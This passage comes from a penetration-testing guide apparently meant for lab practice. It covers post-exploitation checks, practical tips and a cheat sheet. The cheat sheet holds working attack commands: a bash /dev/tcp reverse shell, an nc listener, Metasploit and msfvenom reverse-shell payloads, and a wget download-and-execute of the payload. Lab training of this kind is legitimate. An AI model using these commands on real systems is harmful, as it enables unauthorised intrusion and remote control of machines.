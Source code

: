 ### 8) Minimal post-exploitation verification
```bash
# Linux
whoami; id; hostname; uname -a; ip a

# Windows (cmd)
whoami & hostname & systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
ipconfig /all
```

## Practical tips
- Prefer reverse shells in VPN labs; choose a reachable LPORT (unfiltered outbound).
- Stageless payloads (…/shell_reverse_tcp) are simpler and more reliable through some middleboxes than staged (…/meterpreter/reverse_tcp).
- Match architecture and OS (x86 vs x64, Linux vs Windows) to reduce crashes.
- Read PoCs before running. Many require edits (target offsets, paths, creds).
- Start with low-impact exploits; avoid known-DoS modules in shared labs.
- Validate service versions carefully; minor version mismatch can break some exploits.
- If Metasploit fails, try manual PoC (and vice versa).
- Always stabilize shells early; unstable TTYs waste time.
- Document exact commands that worked and evidence (screenshots/notes).

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover and identify versions
nmap -p- --min-rate 5000 -oA scans/full_tcp <TARGET>
nmap -sC -sV -p <OPEN_PORTS_CSV> -oA scans/versions <TARGET>

# 2) Map to exploits
searchsploit <product> <version>
searchsploit -m <exploit_id_or_path>

# 3) Prepare listener (reverse shell)
export LHOST=$(ip -4 addr show tun0 | awk '/inet/{print $2}' | cut -d/ -f1)
rlwrap nc -lvnp 4444

# 4) Trigger RCE -> reverse shell (example)
bash -c 'bash -i >& /dev/tcp/'"$LHOST"'/4444 0>&1'

# 5) TTY fix
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
reset; export TERM=xterm

# 6) Metasploit (if using a module)
msfconsole -q
search <product> <version>
use exploit/<path>; set RHOSTS <TARGET>; set RPORT <PORT>; set LHOST $LHOST; set PAYLOAD linux/x64/shell_reverse_tcp; run

# 7) Payload gen (optional)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=4444 -f elf -o rev.elf
python3 -m http.server 8000
wget http://$LHOST:8000/rev.elf -O /tmp/rev.elf; chmod +x /tmp/rev.elf; /tmp/rev.elf
```
